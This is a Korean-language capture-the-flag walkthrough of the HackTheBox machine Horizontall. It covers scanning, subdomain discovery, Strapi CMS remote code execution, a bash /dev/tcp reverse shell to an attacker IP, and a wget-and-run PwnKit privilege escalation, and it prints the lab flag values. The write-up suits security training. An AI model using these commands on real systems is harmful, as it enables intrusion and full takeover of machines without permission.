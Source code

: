 # HackTheBox Walkthrough - Horizontall

**Machine Name**: Horizontall  
**Target IP**: 10.129.214.77  

---

## 🧭 정보 수집

### 🔍 Nmap 포트 스캔

```bash
nmap -Pn -p- -n --open --max-retries 1 --min-rate 2000 $ip
```

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
nmap -sV -sC -oA nmap/Horizontall $ip -p 22,80 
```

![nmap](img/nmap.png)

---

### 🌐 웹 서비스 분석

- `/etc/hosts`에 도메인 등록:

```
10.129.214.77   horizontall.htb
```

![etchost](img/etchost.png)

- 메인 페이지 확인:

![webpage](img/webpage.png)

- `gobuster`로 디렉토리 열람:

```bash
gobuster dir -u http://horizontall.htb/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```

- 주요 발견 경로: `/css`, `/img`, `/index.html`, `/js` 등

---

### 🔍 JS 분석을 통한 하위 도메인 발견

- `chunk-vendors.js` 내 `api-prod.horizontall.htb` 발견:

![js](img/js.png)

![subdomain](img/subdomain.png)

```bash
10.129.214.77   api-prod.horizontall.htb
```

- API 페이지 접속:

![welcome](img/welcome.png)

- `gobuster`로 관리자 페이지 발견:

```bash
gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```

- `/admin` → Strapi CMS 로그인 페이지:

![strapi](img/strapi.png)

- `/reviews`에서 유저 확인:

![reviews](img/reviews.png)

---

## 🚨 취약점 분석 및 익스플로잇

### Strapi CMS 3.0.0-beta.17.4 - RCE

![searchsploit](img/searchsploit.png)

```bash
python3 50239.py http://api-prod.horizontall.htb/
```

- 비인증 RCE 성공 → Reverse Shell

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.74/9999 <&1'
```

![revshell](img/revshell.png)

- 셸 안정화:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

- User Flag 획득:

```bash
cat /home/developer/user.txt
# 03c7fcc0f0124c56a4af687250c8250a
```

---

## 🔼 Privilege Escalation

- `find`로 SUID 파일 검색:

```bash
find / -perm -4000 -type f 2> /dev/null
```

![setuid](img/setuid.png)

- `/usr/bin/pkexec` → PwnKit 취약점

```bash
# Kali 측
python3 -m http.server 7777

# 대상 측
wget http://10.10.14.74:7777/PwnKit
chmod +x PwnKit
./PwnKit
```

![root](img/root.png)

- Root Flag 획득:

```bash
cat /root/root.txt
# e7931bd6e9f0a01d00e008d5cdd5e005
```

---

## ✅ 요약

- Strapi CMS 취약점 통해 Blind RCE → 리버스 셸 획득
- `/usr/bin/pkexec`의 PwnKit 취약점으로 root 권한 상승
